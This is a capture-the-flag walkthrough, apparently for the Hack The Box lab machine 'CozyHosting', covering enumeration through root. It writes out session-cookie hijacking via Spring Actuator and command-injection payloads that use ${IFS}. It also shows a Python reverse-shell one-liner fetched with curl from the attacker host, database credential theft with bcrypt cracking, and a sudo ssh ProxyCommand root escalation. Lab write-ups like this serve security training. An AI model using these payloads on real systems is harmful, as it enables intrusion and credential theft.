

## Enumeration
Initial nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 3:11 EDT
Nmap scan report for 10.129.105.187
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.35 seconds
```

When visiting the port 80 website, we are redirected to `cozyhosting.htb`. Adding this to our /etc/hosts file:
```
10.129.105.187 cozyhosting.htb
```

### Exploring webpage
Viewing the webpage, there is not much more than a login page:


Trying generic logins such as `admin:password` fail, and fuzzing for subdomains or hidden webpages does not yield much. When we take a look at the error message, though, we can glean a little information about the backend:


When we google search this Whitelabel Error Page, it returns information on Spring. Eventually, I think to fuzz for pages again, this time using a spring-boot wordlist:

```
$ feroxbuster -u http://cozyhosting.htb/ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 

<...SNIP...>

http://cozyhosting.htb/actuator/env/spring.jmx.enabled
200      GET        1l        1w      498c http://cozyhosting.htb/actuator/sessions
200      GET       83l      453w    36234c http://cozyhosting.htb/assets/img/values-3.png
200      GET        1l        1w      634c http://cozyhosting.htb/actuator
200      GET        1l        1w       15c http://cozyhosting.htb/actuator/health
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/path
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/lang
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/home
200      GET       73l      470w    37464c http://cozyhosting.htb/assets/img/values-1.png
200      GET        1l      218w    26053c http://cozyhosting.htb/assets/vendor/aos/aos.css
200      GET        1l      120w     4957c http://cozyhosting.htb/actuator/env
200      GET        1l      313w    14690c http://cozyhosting.htb/assets/vendor/aos/aos.js
200      GET       79l      519w    40905c http://cozyhosting.htb/assets/img/values-2.png
200      GET        1l      108w     9938c http://cozyhosting.htb/actuator/mappings
200      GET        1l      625w    55880c http://cozyhosting.htb/assets/vendor/glightbox/js/glightbox.min.js
200      GET     2018l    10020w    95609c http://cozyhosting.htb/assets/vendor/bootstrap-icons/bootstrap-icons.css
200      GET        7l     1222w    80420c http://cozyhosting.htb/assets/vendor/bootstrap/js/bootstrap.bundle.min.js
200      GET     2397l     4846w    42231c http://cozyhosting.htb/assets/css/style.css
200      GET       14l     1684w   143706c http://cozyhosting.htb/assets/vendor/swiper/swiper-bundle.min.js
200      GET        1l      542w   127224c http://cozyhosting.htb/actuator/beans
200      GET        7l     2189w   194901c http://cozyhosting.htb/assets/vendor/bootstrap/css/bootstrap.min.css
200      GET      285l      745w    12706c http://cozyhosting.htb/
```

Actuator is a new result, and viewing actuator is quite interesting:


### Viewing valid cookie sessions and session hijacking
Looking at sessions, we can see all sessions, including the cookie and associated authentication. Among the list, there is a valid session for a certain user:


`kanderson` is a user. We might be able to brute force the login, but for now we can just steal his cookie

In firefox inspect, we substitute JSESSIONID value with kanderson's:


Now we can visit `cozyhosting.htb/admin`.

The page itself does not have much to go on, but there does seem to be a remote connection component that is worth exploring:


Interestingly, ssh connection attempt does not reach my box despite listening on port 22


Even more interesting is the error received when submitting a break:


In the url response:
```
http://cozyhosting.htb/admin?error=usage:%20ssh%20[-46AaCfGgKkMNnqsTtVvXxYy]%20[-B%20bind_interface]%20%20%20%20%20%20%20%20%20%20%20[-b%20bind_address]%20[-c%20cipher_spec]%20[-D%20[bind_address:]port]%20%20%20%20%20%20%20%20%20%20%20[-E%20log_file]%20[-e%20escape_char]%20[-F%20configfile]%20[-I%20pkcs11]%20%20%20%20%20%20%20%20%20%20%20[-i%20identity_file]%20[-J%20[user@]host[:port]]%20[-L%20address]%20%20%20%20%20%20%20%20%20%20%20[-l%20login_name]%20[-m%20mac_spec]%20[-O%20ctl_cmd]%20[-o%20option]%20[-p%20port]%20%20%20%20%20%20%20%20%20%20%20[-Q%20query_option]%20[-R%20address]%20[-S%20ctl_path]%20[-W%20host:port]%20%20%20%20%20%20%20%20%20%20%20[-w%20local_tun[:remote_tun]]%20destination%20[command%20[argument%20...]]/bin/bash:%20line%201:%20@127.0.0.1:%20command%20not%20found
```

## Foothold
### RCE via command injection

This error matches what we would expect when performing an invalid `ssh` operation in a shell session, suggesting the command is run as some sort of shell execute. Perhaps we can abuse this to achieve remote code execution?

One small problem, there is no witespace allowed in username field:


We have a way to avoid this, by utilizing `${IFS}`. In bash, this is treated as a space, and can be utilized to bypass the whitespace filter if it is indeed executed as shell command.

Using ${IFS} to curl:
```
kali@10.10.14.134;curl${IFS}10.10.14.134;#
```

On our attacker machine:
```
$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.105.187] 46286
GET / HTTP/1.1
Host: 10.10.14.134
User-Agent: curl/7.81.0
Accept: */*
```

We have a hit! So now, hopefully we can supply a rev shell 1 liner and get a reverse shell!

After struggling with reverse shells for a while, I finally got a working solution. Generate rev.py on kali machine:
```
$ cat rev.py          
import os,pty,socket;s=socket.socket();s.connect(("10.10.14.134",8888));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

Pick it up with curl command on server:
```
kali@10.10.14.134;curl${IFS}10.10.14.134/rev.py${IFS}-o${IFS}/tmp/rev.py
```
on my kali, python server:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.105.187 - - [03/Sep/2023 00:29:36] "GET /rev.py HTTP/1.1" 200 -
```


Finally, launch the python script once again in the username box:
```
kali@10.10.14.134;python3${IFS}/tmp/rev.py;#
```

meanwhile on my listener:
```
$ nc -vnlp 8888
listening on [any] 8888 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.105.187] 47932
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$
```
### User Enumeration
In the current working directory, we have a compiled jar file:
```
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```
This can be extracted very simply, but first I will transfer this to my kali machine
```
app@cozyhosting:/app$ python3 -m http.server 8888
```
On the kali:
```
$ wget cozyhosting.htb:8888/cloudhosting-0.0.1.jar                                         
--2023-09-03 01:16:45--  http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.129.105.187
Connecting to cozyhosting.htb (cozyhosting.htb)|10.129.105.187|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar       100%[==============================================>]  57.47M  1.49MB/s    in 39s     

2023-09-03 01:17:24 (1.47 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```
After unzipping, we can find information in the application.properties:
```
$ cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Here, we have credentials for postgres.
### Cracking password hashes from postgres database
Connecting to postgres:
```
app@cozyhosting:/app$ psql -h localhost -d cozyhosting -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# 
```
Enumerating the postgres database:
```
cozyhosting=# SELECT * FROM users;                     
WARNING: terminal is not fully functional
Press RETURN to continue 
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)
```

Perhaps we can crack the admin password? Indeed we can, and it cracks to the classic manchesterunited:
```
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:33 DONE (2023-09-03 01:53) 0.02980g/s 83.69p/s 83.69c/s 83.69C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
`admin:manchesterunited`

For potential targets on the box, we can check `/etc/passwd` for the valid accounts. When we grep for lines ending in `sh`, we are omitting most non-user accounts with shells like `nologin` or `false`:
```
$ cat /etc/passwd | grep -e sh$
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

With josh as the primary candidate, we can try to use ssh login:
```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
<...SNIP...>
```
It does indeed work as josh's password. If it hadn't the next guess would be for root, which also might not allow ssh authentication. By default, root authentication over ssh is not allowed.
## Privilege Escalation
### GTFOBins on SUID
Josh can ssh as root:
```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Checking [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo), we have an easy win:



```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```
